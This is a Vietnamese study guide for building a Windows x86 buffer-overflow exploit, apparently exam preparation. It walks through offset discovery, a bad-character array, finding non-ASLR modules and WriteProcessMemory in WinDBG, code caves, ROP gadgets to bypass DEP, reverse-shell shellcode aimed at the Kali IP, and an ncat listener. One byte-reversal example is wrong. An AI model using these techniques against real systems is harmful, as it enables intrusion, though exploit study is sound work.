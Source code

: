 # Bài 1:

## B1: Xác nhận code POC overflow
```
Chỉ cần chạy thử và không cần phải chụp
```

## B2: Tìm điểm overflow (offset) 
```
# Chụp lại các bước

# Tạo ra pattern duy nhất để tìm điểm overflow 
msf-pattern_create -l 800

# Tìm điểm offset sau khi xác định overflow
msf-pattern_offset -l 800 -q <Giá trị EIP>
VD: msf-pattern_offset -l 800 -q 42306142
```

## B3: Tìm bad characters (ghi lại)
```
# Mẫu badchars của python (Copy vào trong code). Chụp sơ bộ không cần chi tiết.
badchars = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
badchars += b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
badchars += b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
badchars += b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
badchars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
badchars += b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
badchars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
badchars += b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
badchars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
badchars += b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
badchars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
badchars += b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
badchars += b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

## B4: Tìm module có thể khai thác được (module không có ASLR) 
```
# Sử dụng narly để xem các modules và cơ chế bảo mật của chúng
# Trong WinDBG của máy Debug sử dụng các lệnh và chụp lại:

.load narly 

!nmod

# Khi đó tìm module nào không có *ASLR (Khi thi chỉ có đúng 1 cái)
```

## B5: Tìm API có thể khai thác được (Có thể là VirtualAlloc hoặc là WPM) 
### 5.1: Tìm API
```
# Dựa trên output của !nmod để lấy tên module
# Trong WinDBG của máy Debug sử dụng các lệnh và chụp lại:

# Tìm địa chỉ của Import Address Table

!dh <tên module> -f
VD: !dh KERNEL32 -f

# Khi đó để ý hàng Import Address Table Directory
# Cột thứ nhất là địa chỉ bắt đầu, cột thứ 2 là size (VD: 1234 [ 2c] )

dps <tên module>+1234 <tên module>+1234+2c
VD: dps KERNEL32+1234 KERNEL32+1234+2c

# Output sẽ là 1 list nơi lưu địa chỉ của các API mà module gọi đến. Tìm WriteProcessMemoryStub (Theo yêu cầu của đề bài)
# Ghi lại nơi lưu địa chỉ của API WriteProcessMemoryStub (Cột đầu tiên tương ứng với dòng)
```
### 5.2: Khi khai thác WriteProcessMemory thì cần phải tìm code cave (Một vùng bộ nhớ chứa bytes rỗng có quyền thực thi)
```
# Trong WinDBG của máy Debug sử dụng các lệnh và chụp lại:

!address
# VD output: 412000  413000  1000  MEM_IMAGE  MEM_COMMIT  PAGE_EXECUTE_READ      IMAGE      [KERNEL32; ........]

# Output của lệnh trên sẽ liệt kê tất cả vùng của các module.
# Chúng ta quan tâm đến các vùng trong module sẽ khai thác (Tên module thể hiện ở cột cuối).
# Trong module sẽ khai thác, để ý vùng có chữ PAGE_EXECUTE_READ.
# Lưu ý lại 2 cột đầu là địa chỉ bắt đầu và kết thúc của vùng.

s <Địa chỉ bắt đầu của vùng> <Địa chỉ kết thúc của vùng> 00000000
VD: s 412000 413000 00000000

# Lệnh trên dùng để tìm 1 vùng chứa bytes rỗng trong 1 khoảng chúng ta chỉ định (Vùng có PAGE_EXECUTE_READ đã tìm ở trên)
# Output của lệnh sẽ ra rất nhiều. Chụp 1 đoạn có rất nhiều số 0000000 là được.
# Có thể kiểm tra xem vùng nhớ có đủ size chứa shellcode không bằng lệnh: 

dd <Địa chỉ bắt đầu muốn ghi viết shellcode> + <Size shellcode (có thể là 300-400)>

# Nếu output trả về vẫn là 1 vùng chứa bytes rỗng (00000000) thì nghĩa là đủ size dùng được.
```

## B6: Tìm ROP gadgets để vượt qua DEP 
```
# Sử dụng rp-win-x86 để trích xuất ROP gadgets từ module cần khai thác
# Sử dụng narly trong WinDBG để tìm đường dẫn của module khai thác
.load narly
!nmod

# Đường dẫn là cột cuối cùng trong output của lệnh !nmod
# Trích xuất ROP chain bằng lệnh sau:
rp_win_x86.exe -f "<Đường dẫn đến moduled" -r 5 > rop.txt
```

## B7: Xây dựng stack dùng ROP gadget 
[Cách xây dựng ROP](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/H%C6%B0%E1%BB%9Bng%20d%E1%BA%ABn/X%C3%A2y%20d%E1%BB%B1ng%20ROP.MD)

## B8: Tạo shellcode thủ công
Dựa trên [shellcode mẫu trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.py) và chỉnh sửa tương ứng.  
Khi thực thi đoạn code trên, trong terminal sẽ sinh ra 1 đoạn shellcode. Copy thẳng shellcode đó vào trong code.  

### 8.1 Sửa địa chỉ IP thành IP của máy kali
[Tool đổi IP sang hex](https://www.browserling.com/tools/ip-to-hex)  
Lưu ý đảo lại chiều của các bytes. \
VD trên tool: `127.0.0.1 => 7f.00.00.01 (0x7f000001)` \
Trong code phải đảo thành: `0x01000000f7`

### 8.2 Chỉnh sửa lệnh loại bỏ bad characters
[Tool đổi assembly sang opcode](https://defuse.ca/online-x86-assembler.htm)  
Các lệnh gốc của shellcode mẫu sẽ có những opcode có bad characters.  
Dựa trên kết quả debug trong WinDBG để tìm điểm xảy ra crash hoặc có thể convert thủ công từng câu lệnh. Từ đó có thể biết câu lệnh cần thay thế.  
Thay thế 1 câu lệnh có bad character bằng 2 hoặc 3 câu lệnh thực hiện chức năng tương ứng.
```
# Giả sử ta có 0x05 là bad character và có câu lệnh:
add    eax, 0x12345678      # Opcode:   \x05 \x78 \x56 \x34 \x12 

# Ta có thể thay bằng 2 câu lệnh để đưa ra kết quả tương tự mà không bị dính bad character:
mov    ecx, 0x12345678      # Opcode:   \xb9 \x78 \x56 \x34 \x12
add    eax, ecx             # Opcode:   \x01 \xc8                  
```

Thực thi listener bằng lệnh 
```
ncat -lnvp <Port>
```



